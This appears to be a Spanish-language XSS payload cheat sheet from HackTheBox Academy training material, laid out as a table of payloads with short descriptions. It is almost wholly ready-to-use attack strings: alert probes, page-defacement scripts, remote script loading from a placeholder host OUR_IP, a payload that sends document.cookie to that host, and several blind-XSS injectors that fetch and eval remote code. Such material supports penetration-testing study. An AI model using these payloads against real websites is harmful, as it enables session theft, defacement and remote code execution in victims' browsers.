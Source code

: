 | Código                                        | Descripción          |
|-------------------------------------------    |----------------------|
| `<script>alert(window.origin)</script>`       | Carga útil XSS básica |
| `<plaintext>`                                 | Carga útil XSS básica |
| `<script>print()</script>`                    |  |
| `<img src="" onerror=alert(window.origin)>`   | Carga útil XSS básica |
| `<script>document.body.style.background = "#141d2b"</script>` | Carga útil XSS basada en HTML |
| `<script>document.body.style.background = "#141d2b"</script`  | Cambiar color de fondo |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Cambiar imagen de fondo  |
| `<script>document.title = 'HackTheBox Academy'</script>`                                      | Cambiar título del sitio web  |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`    | Sobrescribir el cuerpo principal del sitio web |
| `<script>document.getElementById('urlform').remove();</script>`                   | Eliminar cierto elemento HTML |
| `<script src="http://OUR_IP/script.js"></script>`                                 | Cargar script remoto |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`   | Envíenos los detalles de las cookies |
| `<script src=http://OUR_IP></script>`     | Blind XSS |
| `'><script src=http://OUR_IP></script>`   | Blind XSS |
| `"><script src=http://OUR_IP></script>`   | Blind XSS |
| `javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')`                                  | Blind XSS   |
| `<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>`   | Blind XSS   |
| `<script>$.getScript("http://OUR_IP")</script>`     | Blind XSS |
